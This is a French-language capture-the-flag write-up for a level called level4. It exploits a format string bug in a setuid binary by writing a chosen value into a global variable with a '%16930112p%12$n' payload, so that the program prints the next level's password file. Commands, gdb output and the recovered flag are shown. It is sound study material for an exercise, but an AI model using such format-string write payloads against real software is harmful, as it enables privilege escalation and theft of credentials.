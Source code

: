 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2025(level4) gid=2025(level4) groups=2025(level4),100(users)
/home/user/level4
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level4 :

```bash
$ ./level4
(waiting for input)
$ ./level4
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=b9f0625b-1ccf-4c04-ba81-40bf2a6eb0c0) et en extrait une version probable du code :

```c
int m;

void p(char *buffer)
{
    printf(buffer); // <------------------------1 format string vulnerability, we have to rewrite m to be 16930116
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);

    p(buffer);
    if (m == 16930116) // <----------------------2 using %16930116p we can pad by that amount and then use %n to alter the value of m
        system("/bin/cat /home/user/level5/.pass");
} // <-------------------------------------------3 and get shell access above

int main(void)
{
    n();
}
```

Je note les choses suivante :

- `fgets()` est utilisé, et n'est donc pas vulnérable
- `printf()` est utilisé, probablement expoitable comme le `level3`, cependant il est dans une autre fonction

Je me penche sur la possibilité d'utiliser le même exploit que le `level``.
Je commence donc par trouver l'adresse de la variable `m` dans `gdb`.

Je trouve : `0x08049810`

```h
(gdb) disas n
Dump of assembler code for function n:
    ...
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax <--------- ici
   0x08048492 <+59>:    cmp    $0x1025544,%eax
    ...
```

Grâce à `Hexray`, je sais que la valeur qu'on essaye de comparer à `m` est `16930116`.
Il faut donc, par le même exploit que le `level3`, que j'arrive à donner à `m` cette valeur.

Or, dans le niveau précédent, j'avais la place d'écrire 64 caractères dans le buffer. Cette fois-ci, le buffer est seulement de 512 bytes, donc je n'ai pas ce luxe.

Pour le moment, j'ai donc uniquement la première partie de mon payload infecté, qui est l'adresse de `m` :

```python
python -c 'print("\x08\x04\x98\x10"[::-1])'
```

Maintenant, j'utilise une astuce qui me permet de ne pas écrire les 16 millions de caractères : `%16930116p`.

Cela me permet de représenter en tant que pointeur une valeur, mais avec un padding de 16 millions de caractères. Cela permet de contourner la limitation de `512` que `fgets()` exige ici.

Or, j'ai déjà écris les 4 bytes de l'adresse de `m` dans le payload, je n'ai donc besoin que de mettre un padding de `%16930112p`.

Le payload ressemble donc à ça pour le moment :

```python
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p")'
```

La dernière partie du payload est donc de convertir tout ces caractères en utilisant le formatteur `%n`. Comme pour le level3, il me faut donc trouver quel est la position de l'argument qui pointerait sur la première partie du `printf` (ici donc l'adresse de `m`) :

```bash
$ python -c 'print("a %x %x %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
a b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 78252061 20782520 25207825
                                                                                        ^
$ python -c 'print("b %x %x %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
b b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 78252062 20782520 25207825
                                                                                        ^
```

C'est donc ici le 12eime argument qui représente la première partie du `printf()`. Donc, comme pour le level 3, cela signifie que la dernière partie de mon payload est `%12$n` (note: le `$` dénote un argument tandis que le `12` est un simple padding, le combo signifie donc "l'argument à telle position").

Payload final :

```python
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")'
```

Je l'essaye :

```bash
python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")' | ./level4

... (il print 16 millions de caractère de padding)

                      0xb7ff26b0 (puis le pointeur (le premier de la stack, vu qu'on ne demande pas une position précise), note: c'est le premier des 12 argument vu plus haut lors du test avec les %x %x %x...)

(enfin, de manière invisible, le %12$n affecte comme valeur de pointeur au 12eime argument de la stack (ici donc l'adresse de m) la valeur des caractère imprimé jusque ici, donc 16 millions, ce qui permet à 'm' de passer le if, et de nous imprimer le .pass ci-dessous)

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
